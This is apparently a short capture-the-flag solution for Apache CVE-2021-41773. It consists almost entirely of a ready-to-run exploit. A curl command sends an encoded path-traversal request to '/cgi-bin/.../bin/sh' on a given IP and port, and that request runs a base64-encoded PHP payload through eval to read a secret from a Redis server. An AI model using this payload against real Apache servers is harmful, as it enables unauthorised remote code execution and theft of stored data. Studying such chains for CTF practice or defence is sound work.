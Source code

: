 ## Vulnerability
**Apache CVE-2021-41773 -> RCE -> Include vendor redis -> Get Flag**

## PHP Payload
```
require __DIR__ . '/../vendor/autoload.php'; $redis = new Predis\Client('tcp://redis:6379'); echo $redis->get("flag_super_idol");
```

## Final Payload
```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; php -r \"eval(base64_decode('cmVxdWlyZSBfX0RJUl9fIC4gJy8uLi92ZW5kb3IvYXV0b2xvYWQucGhwJzsgJHJlZGlzID0gbmV3IFByZWRpc1xDbGllbnQoJ3RjcDovL3JlZGlzOjYzNzknKTsgZWNobyAkcmVkaXMtPmdldCgiZmxhZ19zdXBlcl9pZG9sIik7'));\"" "http://103.144.22.12:5002/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```